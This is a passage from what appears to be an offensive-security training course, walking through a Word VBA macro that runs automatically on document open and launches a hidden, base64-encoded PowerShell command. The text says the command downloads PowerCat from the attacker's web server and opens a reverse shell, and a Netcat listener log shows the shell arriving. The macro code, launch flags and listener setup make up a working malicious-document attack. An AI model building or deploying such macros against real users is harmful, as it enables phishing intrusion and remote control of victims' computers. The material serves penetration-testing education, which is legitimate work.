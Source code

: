 Having split the base64-encoded string into smaller chunks, we can update our macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

> Listing 8 - Macro invoking PowerShell to create a reverse shell

After we modify our macro, we can save and close the document. Before re-opening it, let's start a Python3 web server in the directory where the PowerCat script is located. We'll also start a Netcat listener on port 4444.

After double-clicking the document, the macro is automatically executed. Note that the macro security warning regarding the _Enable Content_ button is not appearing again. It will only appear again if the name of the document changes.

After the macro is executed, we receive a GET request for the PowerCat script in our Python3 web server and an incoming reverse shell in our Netcat listener.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```

> Listing 9 - Reverse shell from Word macro

Opening the document ran the macro and sent us a reverse shell. Excellent!

Let's briefly summarize what we did in this section. First, we created a VBA macro in a Word document to execute a single command when the document is opened. Then, we replaced the single command with a base64-encoded PowerShell command downloading PowerCat and starting a reverse shell on the local system.
